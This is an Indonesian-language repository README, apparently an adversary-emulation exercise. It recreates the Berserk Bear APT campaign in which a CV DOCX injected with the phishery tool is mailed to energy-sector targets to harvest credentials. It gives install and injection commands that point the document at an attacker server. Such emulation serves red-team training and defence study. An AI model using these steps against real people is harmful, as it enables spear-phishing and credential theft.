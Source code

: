 # Simulasi Serangan Berserk Bear APT

Ini adalah simulasi serangan oleh grup APT (Berserk Bear) yang menargetkan infrastruktur kritis dan perusahaan energi di seluruh dunia, terutama di Eropa dan Amerika Serikat. Kampanye serangan ini aktif setidaknya sejak Mei 2017. Serangan ini menargetkan penyedia infrastruktur kritis dan vendor yang mereka gunakan untuk menyediakan layanan penting. Rantai serangan dimulai dengan **kontainer XML berbahaya** yang disuntikkan ke dalam file DOCX, yang terhubung ke server eksternal melalui (SMB) dan digunakan untuk diam-diam mengambil kredensial pengguna, lalu digunakan dalam serangan spear-phishing. Saya mengandalkan laporan dari [Cisco Talos Intelligence Group](https://blog.talosintelligence.com/template-injection/) untuk memahami detailnya dan membuat simulasi ini.

![imageedit_2_8052388982](https://github.com/S3N4T0R-0X0/Berserk-Bear-APT/assets/121706460/3d592743-ea32-4f8e-9739-1d0696c1bfd2)

Jika Anda ingin mengetahui lebih lanjut tentang serangan oleh grup APT Berserk Bear, lihat di sini: [ETDA Berserk Bear Card](https://apt.etda.or.th/cgi-bin/showcard.cgi?g=Berserk%20Bear%2C%20Dragonfly%202%2E0&n=1)

Serangan ini meliputi beberapa tahap, termasuk penyuntikan file DOCX dan penggunaan kontainer XML berbahaya yang memicu notifikasi untuk memperoleh kredensial yang kemudian ditransfer ke server penyerang. Kredensial ini digunakan oleh penyerang untuk mengakses data organisasi yang menjadi target serangan spear-phishing. File DOCX berupa CV ini dibuat untuk orang dengan pengalaman sepuluh tahun dalam pengembangan perangkat lunak dan sistem kontrol SCADA.

1. Buat file DOCX CV yang akan disuntikkan dan dikirim melalui spear phishing.

2. Lakukan penyuntikan pada file DOCX untuk memperoleh kredensial menggunakan alat phishery.

3. Phishing Kredensial terjadi ketika target membuka file Word dan memasukkan kredensial dalam notifikasi yang akan ditampilkan.


## Tahap Pertama (teknik pengiriman)

Penyerang menargetkan institusi yang terkait dengan energi dan sistem manajemen energi seperti SCADA. Mereka membuat file DOCX dalam bentuk CV untuk melamar pekerjaan, tampaknya ada lowongan pekerjaan terbuka untuk posisi tersebut. Penyerang mengirimkan CV yang berisi kontainer XML berbahaya. Di sini, saya membuat CV identik dengan yang digunakan dalam serangan asli.

![Screenshot from 2024-05-18 19-21-05](https://github.com/S3N4T0R-0X0/Berserk-Bear-APT/assets/121706460/b0e13bdf-1816-41a9-99d8-4fc31d751aeb)


## Tahap Kedua (teknik implantasi)

Menurut Cisco Talos Intelligence Group, penyerang menyuntikkan file DOCX melalui alat phishery. Pada saat serangan ini, phishery merupakan alat baru, dan para penyerang memanfaatkan momen tersebut. Mungkin mereka juga melakukan beberapa modifikasi sebelum menggunakannya dalam serangan ini.

![Screenshot from 2024-05-21 08-11-09](https://github.com/S3N4T0R-0X0/Berserk-Bear-APT/assets/121706460/b0bcf631-779b-44d4-899b-b37646a0427f)

Phishery adalah server HTTP yang sederhana dengan SSL, dirancang untuk tujuan utama phishing kredensial melalui Otentikasi Dasar. Phishery juga memungkinkan penyuntikan URL ke dalam dokumen Word (.docx) dengan mudah.

Repository Github: https://github.com/ryhanson/phishery.git

![photo_2024-05-28_08-22-20](https://github.com/S3N4T0R-0X0/Berserk-Bear-APT/assets/121706460/847f8fea-3076-49bb-9703-0375f24e085b)

Berikut adalah perintah untuk menginstal dan menggunakan phishery:
`sudo apt-get install phishery`

`phishery -u https://192.168.138.138 -i CV.docx -o malicious.docx`

`phishery`

Sekarang, CV berbahaya akan dikirim ke target dan menunggu kredensial.

## Tahap Ketiga (teknik eksekusi)

Phishing Kredensial terjadi ketika target membuka file Word yang berbahaya dan memasukkan kredensial dalam notifikasi yang akan ditampilkan kepada mereka.

https://github.com/S3N4T0R-0X0/Berserk-Bear-APT/assets/121706460/ac654ad4-45d8-4bea-a0cb-a3a0fc7e567d
